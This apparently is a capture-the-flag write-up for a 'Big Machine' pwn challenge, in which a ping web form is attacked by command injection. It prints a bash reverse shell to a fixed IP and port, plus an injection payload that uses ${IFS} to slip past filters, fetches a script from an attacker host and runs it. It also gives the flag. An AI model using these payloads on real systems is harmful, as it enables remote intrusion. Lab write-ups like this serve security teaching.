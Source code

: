 ```yaml
---
layout: writeup

title: Big Machine
difficulty: Hard
points: 500
categories: [Pwn]
tags: []

flag: CBCV{3nv1r0nm3nt_v4r14bl3s_c4n_b3_s3cr3t_2352}
---
```


### Big Machine
* Author: Aakansh Gupta (Unknown)

Check the website on the given url

<img src="./images/big.png" />

It shows the pin result for given IPs.
Try and get a reverse shell on it.
Since most common commands are blocked, we try and send a script from attacked to the machine like: 

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.192.130/4444 0>&1

```
We craft a special request to send this: ` 8.8.8.8;curl${IFS}-o${IFS}/tmp/x${IFS}YOUR_ATTACKER_IP:8000/s;chmod${IFS}+x${IFS}/tmp/x;/tmp/x `
We can use python http.server to send the file. At the same time keep the netcat listener open to accept the reverse shell.

After getting a reverse shell, try snoop around to find the flag. If you check the enviornment variables using `env` , you get the flag

<img src="./images/bigflag.png" />


### The flag found is:
## CBCV{3nv1r0nm3nt_v4r14bl3s_c4n_b3_s3cr3t_2352}
